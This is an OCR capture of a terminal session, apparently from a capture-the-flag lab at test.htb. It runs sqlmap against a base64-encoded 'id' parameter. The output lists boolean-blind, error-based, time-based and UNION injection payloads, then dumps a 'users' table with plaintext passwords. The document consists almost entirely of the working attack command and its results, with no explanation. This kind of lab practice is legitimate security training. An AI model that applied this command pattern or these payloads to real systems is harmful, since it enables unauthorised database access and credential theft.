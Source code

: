 
```
└─$ sqlmap -u "http://test.htb/?id=Ng==" --base64=id --cookie=PHPSESSID=5ntfputn603mok7qcf2oef9bf5 -D hackme -T users -C username --dump-all
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.12#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:43:00 /2024-02-13/

[08:43:00] [INFO] resuming back-end DBMS 'mysql' 
[08:43:01] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=MycgQU5EIDg1NzE9ODU3MSBBTkQgJ0F1akMnPSdBdWpD

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=MycgQU5EIEdUSURfU1VCU0VUKENPTkNBVCgweDcxNzg3NjdhNzEsKFNFTEVDVCAoRUxUKDMzNjg9MzM2OCwxKSkpLDB4NzE3Njc4NzA3MSksMzM2OCkgQU5EICdoeFdVJz0naHhXVQ==

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=MycgQU5EIChTRUxFQ1QgNjE3MCBGUk9NIChTRUxFQ1QoU0xFRVAoNSkpKXhySW0pIEFORCAnTkNvRic9J05Db0Y=

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=LTMxNzEnIFVOSU9OIEFMTCBTRUxFQ1QgTlVMTCxOVUxMLE5VTEwsQ09OQ0FUKDB4NzE3ODc2N2E3MSwweDdhNGI1NTRjNTE0NDRhNzM3NTczNTE0ZDY3NzQ2NDQ2NTA1MTUxNzA2ODY1NTc1MDQ4NDY1NTZiNGI1MjYxNTQ0MjdhNjY0MTcwNDE1Njc0LDB4NzE3Njc4NzA3MSksTlVMTC0tIC0=
---
[08:43:01] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.6
[08:43:01] [INFO] sqlmap will dump entries of all tables from all databases now
[08:43:01] [INFO] fetching tables for database: 'hackme'
[08:43:01] [WARNING] reflective value(s) found and filtering out
[08:43:01] [INFO] fetching columns for table 'users' in database 'hackme'
[08:43:01] [INFO] fetching entries for table 'users' in database 'hackme'
Database: hackme
Table: users
[3 entries]
+----+--------+--------------------+----------+
| id | name   | password           | username |
+----+--------+--------------------+----------+
| 1  | Admin  | P@ssw0rd!sW0r1d    | 4dmin    |
| 2  | ddsd   | d                  | d        |
| 3  | mybb   | 7RdFdK8sqcrWWhkaCF | mybb     |
+----+--------+--------------------+----------+

```
